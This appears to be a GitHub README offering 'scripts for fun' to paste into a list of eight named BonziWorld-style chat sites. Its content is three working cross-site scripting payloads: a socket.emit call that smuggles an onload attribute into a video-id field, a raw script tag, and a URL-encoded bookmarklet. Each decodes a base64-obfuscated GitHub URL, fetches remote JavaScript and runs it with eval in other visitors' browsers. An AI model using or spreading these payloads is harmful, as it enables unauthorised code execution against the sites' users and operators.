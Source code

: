 # ULTIMATE JAVASCRIPT
Scripts for fun
# How to use?
simply go into the websites list and
paste this script<br>
`socket.emit('command', { list: ['youtube', '71Uyt5tTnyg" onload="fetch(atob(\'aHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2l2b3J5ZGV2cmltb2FsdC9CT05aSVdPUkxEVUxUUkFKQVZBU0NSSVBUTElTVC9yZWZzL2hlYWRzL21haW4v\')+\'???\'+atob(\'Lmpz\')).then(r=>r.text()).then(t=>eval(t))" u="'] });`<br>
and if you have sanitize off do this<br>
`<script>fetch(atob('aHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2l2b3J5ZGV2cmltb2FsdC9CT05aSVdPUkxEVUxUUkFKQVZBU0NSSVBUTElTVC9yZWZzL2hlYWRzL21haW4v')+'???'+atob('Lmpz')).then(r=>r.text()).then(t=>eval(t))</script>`<br>
if you'd like you wanna press it from the bookmark<br>
`javascript:const%20jvnm%20%3D%20prompt%28%22Enter%20script%20name%20%28UPPERCASE%20ONLY%29%3A%22%29%3B%20const%20vidid%20%3D%20prompt%28%22YTVideo%20id%2C%20%28OPTIONAL%29%22%29%3Bsocket.emit%28%27command%27%2C%20%7B%20list%3A%20%5B%27youtube%27%2C%20%60%22%24%7Bvidid%7D%22%20onload%3D%22fetch%28atob%28%27aHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2l2b3J5ZGV2cmltb2FsdC9CT05aSVdPUkxEVUxUUkFKQVZBU0NSSVBUTElTVC9yZWZzL2hlYWRzL21haW4v%27%29%29%2Bjvnm%2Batob%28%27.mpz%27%29%29.then%28r%3D%3Er.text%28%29%29.then%28t%3D%3Eeval%28t%29%29%22%20u%3D%22%60%5D%7D%29%3B`
# What are the websites?
https://bonziworld-classic-plus-plus-edition-mlcr.onrender.com<br>
https://bonziworld-revived-1.onrender.com<br>
https://seamusmario-s-bonziworld-revived-2020-qsal.onrender.com<br>
https://bonziworld-revived-2-sll4.onrender.com<br>
https://marginworld.onrender.com<br>
https://bonziworld-revived.zapto.org<br>
https://bonziworldberylicarus.onrender.com<br>
https://bonziworld-refoundation.onrender.com
